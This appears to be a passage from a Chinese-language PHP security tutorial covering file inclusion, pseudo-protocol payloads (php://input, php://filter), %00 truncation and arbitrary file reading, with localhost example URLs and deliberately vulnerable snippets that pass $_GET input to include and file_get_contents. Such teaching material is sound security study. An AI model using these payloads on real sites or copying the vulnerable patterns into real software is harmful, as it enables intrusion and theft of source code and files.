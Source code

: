 `http://127.0.0.1/remotefileinclude.php?url=http://127.0.0.1:8080/Desktop/rfi.txt`

使用伪协议(举两个伪协议例子):

php://input

- allow_url_fopen：off/on
- allow_url_include：on
  `http://127.0.0.1/remotefileinclude.php?url=php://input`
  `post: <?php phpinfo();?>`

php://filter

- allow_url_fopen：off/on
- allow_url_include：off/on
  `http://127.0.0.1/remotefileinclude.php?url=php://filter/read=convert.base64-encode/resource=remotefileinclude.php`

截断包含:

00截断(受限于GPC和addslashes等函数影响,php5.3之后也不能使用这个方法,不过现在很少有这个漏洞了):

```php
<?php
include $_GET['a'].'.php';
?>
```

假如你发现了截断包含漏洞,然后又只能上传某些固定后缀的文件,那可以试下00截断

`http://127.0.0.1/truncatedinclude.php?a=aaa.txt%00`

多个`.`和`/`截断,不受GPC限制,但是在php5.3之后修复

### 文件读取(下载)

程序在下载文件或者读取显示文件的时候,读取文件的参数直接在请求中传递,后台程序获取到这个文件后直接读取返回,问题在于这个参数是用户可控的,可以直接传入想要的文件路径。

文件读取或者下载函数:

- file_get_contents
- high_light
- fopen
- readfile
- fread
- ...

eg:



```php
<?php
$file = file_get_contents($_GET['file']);
echo $file;
?> 
```

`http://127.0.0.1/fileread.php?file=aaa.txt`

### 文件上传漏洞
